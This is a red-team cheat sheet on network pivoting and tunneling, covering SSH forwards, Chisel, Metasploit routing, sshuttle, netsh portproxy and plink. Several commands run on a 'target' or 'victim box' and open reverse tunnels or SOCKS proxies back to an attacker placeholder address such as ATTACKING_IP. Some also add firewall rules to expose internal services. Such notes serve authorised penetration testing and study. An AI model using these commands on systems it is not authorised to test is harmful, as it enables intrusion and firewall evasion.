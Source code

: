 # Tunneling      
## Contents    
- [Tunneling](#tunneling)
  * [Contents](#contents)
  * [SSH](#ssh)
    + [Local Tunnels](#local-tunnels)
    + [Reverse Tunnels](#reverse-tunnels)
    + [Dynamic Tunnels](#dynamic-tunnels)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
  * [Metasploit Tunneling](#metasploit-tunneling)
- [Linux](#linux)
  * [SShuttle](#sshuttle)
  * [IPTables](#iptables)
- [Windows](#windows)
  * [Portproxy](#portproxy)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)   
   
Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tunneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 
## SSH 
In SSH session: press enter a few times then ~C to append more tunnels to command (open command line mode). 
Config file: /etc/ssh/sshd_config. Need to restart SSH service whenever config changes are made.       

    /usr/sbin/sshd -t    #validate SSH config    
    systemctl status ssh    #view SSH server status 
    systemctl restart ssh   #restart SSH 
    systemctl stop ssh   #stop SSH server 
    systemctl start ssh   #Start SSH   
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target. Default local ip is 0.0.0.0

    ssh -p <port> user@pivot -L <local ip for specific interface>:<local port on attack box>:<target host>:<target port> 
    ssh -L 3333:localhost:3306 user@10.10.10.10            #local port forward example     
    ssh -L 3333:localhost:3306 8080:localhost:80 user@10.10.10.10     #multiple local port forward     
    netstat -antp | grep 3333   #confirm port forward      
    
### Reverse Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    open up pivot pivot to forward traffic back to local Kali box 
    ssh -R <pivot port>:localhost:<local port> user@<pivot ip> 
    
### Dynamic Tunnels           
Set up dynamic tunnels to scan through them (see scanning section below for more details)     

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

    
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)    
[Chisel Nptes](https://hack.technoherder.com/chisel/)     
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box    
[HTTP vs SOCKS4 vs SOCKS5 proxies](https://medium.com/@ThibeauM/difference-between-http-socks4-and-socks5-proxies-85aca2a9e4ae)    
### Chisel socks Reverse Proxy 
    attack box    $ ./chisel server -p LISTEN_PORT --reverse &  
    target box    $ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    $ ./chisel server -p LISTEN_PORT --socks5  
    attack    $ ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    $ ./chisel server -p LISTEN_PORT --reverse &  
    target    # ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    $ ./chisel server -p LISTEN_PORT 
    attack    $ ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 

## Ligilo-ng     
[Ligolo-ng](https://github.com/nicocha30/ligolo-ng)    

## Metasploit Tunneling   
Route pivoting:    

    msf (meter) > bg 
    msf > route add 10.10.10.0/24 1   #add route to session 1, then scan or exploit using the session     
    Can then use scanners / commands like: auxiliary/scanner/portscan/tcp, nmap, dn_nmap, post/multi/gather/ping_sweep modules.        
    msf (meter) > run arp_scanner -r 10.10.10.0/24    
SOCKS Proxy    

    use auxiliary/server/socks_proxy
    socks4 	127.0.0.1 9050    #Add to /etc/proxychains.conf (or proxychains4.conf)    
Local Port Forwarding    

    (meter) > portfwd add -l 3300 -p 3389 -r 172.16.1.1    
    (meter) > portfwd add -R -l 8081 -p 1234 -L 10.10.10.10 #Reverse     
    
 # Linux 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 ## IPTables 
 
     iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.20:22 

 
 # Windows           
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT    
## Portproxy

    netsh interface portproxy add <type> listenport=<port in> connectport=<port out> connectaddress=<destination>  
    <type> can be v4tov4, v4tov6, v6tov4, v6tov6      
    netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80    


## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
[upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  

     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     #generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target         
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
 
 # DNS Tunneling    
 [DNSCat2](https://github.com/iagox86/dnscat2)     
 [DNSCat2 - PowerShell](https://github.com/lukebaggett/dnscat2-powershell)      
 
 # ICMP Tunneling   
 [Ptunnel-ng](https://github.com/utoni/ptunnel-ng)    
 
 [SOCKS Over RDP](https://github.com/nccgroup/SocksOverRDP)     
 [Proxifier](https://www.proxifier.com/download/#win-tab)     
